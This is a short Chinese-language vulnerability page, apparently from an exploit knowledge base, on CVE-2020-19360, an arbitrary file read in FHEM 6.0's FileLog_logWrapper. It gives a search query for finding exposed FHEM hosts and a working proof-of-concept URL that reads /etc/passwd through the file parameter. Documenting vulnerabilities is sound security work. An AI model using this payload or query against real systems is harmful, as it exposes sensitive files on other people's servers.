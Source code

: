 # Fhem FileLog_logWrapper 任意文件读取漏洞 CVE-2020-19360

## 漏洞描述

FHEM在6.0版本中存在文件包含漏洞，该漏洞源于允许FHEM/FileLog_logWrapper file参数允许攻击者包含文件，攻击者可以利用此漏洞导致敏感信息泄露。

## 漏洞影响

<a-checkbox checked>FHEM 6.0

## 网络测绘

<a-checkbox checked>title=="Home, Sweet Home"</a-checkbox></br>

## 漏洞复现

主页面

![img](../../../.vuepress/public/img/1637586979107-0847f305-1296-43e5-8094-f662c312cc7e.png)

验证POC

```python
/fhem/FileLog_logWrapper?dev=Logfile&file=%2fetc%2fpasswd&type=text
```

![img](../../../.vuepress/public/img/1637587030568-032b48b0-d999-4259-8651-e4e96400eb54.png)